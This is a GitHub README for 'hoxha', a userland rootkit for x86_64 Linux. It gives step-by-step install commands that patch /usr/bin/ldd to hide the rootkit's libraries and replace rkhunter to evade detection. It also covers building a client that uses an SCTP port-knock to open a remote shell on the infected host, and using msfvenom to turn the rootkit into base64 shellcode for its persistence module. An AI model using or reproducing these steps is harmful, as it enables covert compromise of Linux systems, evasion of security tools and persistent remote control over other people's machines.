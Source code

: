 # hoxha
A userland rootkit for x86_64 Linux that was meant to be everything <a href="https://github.com/mephistolist/tito">Tito</a> was not. As Enver Hoxha was Tito's next door neighbor and completely opposed in ideology, there was no more a fitting name. Hoxha was also known for being very paranoid, so a lot more detection-evasion was used.   

<p align="center">
  <img src="https://upload.wikimedia.org/wikipedia/commons/f/fe/Enver_Hoxha_%28portret%29.jpg" width="50%" height="50%" />
</p>

You can download this like so:
```
git clone https://github.com/mephistolist/hoxha.git
```
Considering SCTP is installed and loaded in the kernel, you can install the rootkit this:
```
cd hoxha/persistance && [ -f ./patchelf ] && chmod +x ./patchelf && make install clean && sed -i 's/try_trace \"$RTLD\" \"$file\" || result=1/try_trace \"$RTLD\" \"$file\" | grep -vE \"libc.so.4|libc.so.5\" || result=1/g' /usr/bin/ldd && [ -f $(which rkhunter) ]  && cp ./rkhunter $(which rkhunter) 2>/dev/null
```
On another device you can build the client with the following in the hoxha root directory:
```
cc client.c -o client -s -pipe -march=native -O2 -std=gnu17 -Wall -Wextra -pedantic -fno-stack-protector -fno-asynchronous-unwind-tables -fno-ident -ffunction-sections -fdata-sections -falign-functions=1 -falign-loops=1 --no-data-sections -falign-jumps=1 -falign-labels=1 -flto -fipa-icf -z execstack -Wl,-z,norelro -Wl,-O1 -Wl,--build-id=none -Wl,-z,separate-code -lsctp
```
The client can be used with just the destionation ip address where this rootkit is installed:
```
# ./client 127.0.0.1
[+] SCTP knock sequence sent.
[*] Connecting to SCTP shell at 127.0.0.1:5000...
[+] Connected. Type commands (type 'exit' to quit):
sctp-shell>
```
As SCTP ports are hard to close, I would suggest running this to exit the shell:
```
killall -9 hoxha && service cron restart
```
This will ensure that only one port is left listening for future connections.

If you wish to edit or just build the shell from source you can do so by just typing 'make' the root directory. Using 'make install' will give a binary at /usr/bin/hoxha. You can then run this with msfvenom:
```
msfvenom -p linux/x64/exec CMD=/usr/bin/hoxha -f raw -o shellcode.bin -b "\x00\x0a\x0d"
```
Then you can base64 the raw data like so:
```
cat shellcode.bin | base64
```
Add that base64 encoded string to the hoxha/persistance/libexec.c file and re-run the Makefile in the persistance folder and your changes should be running.
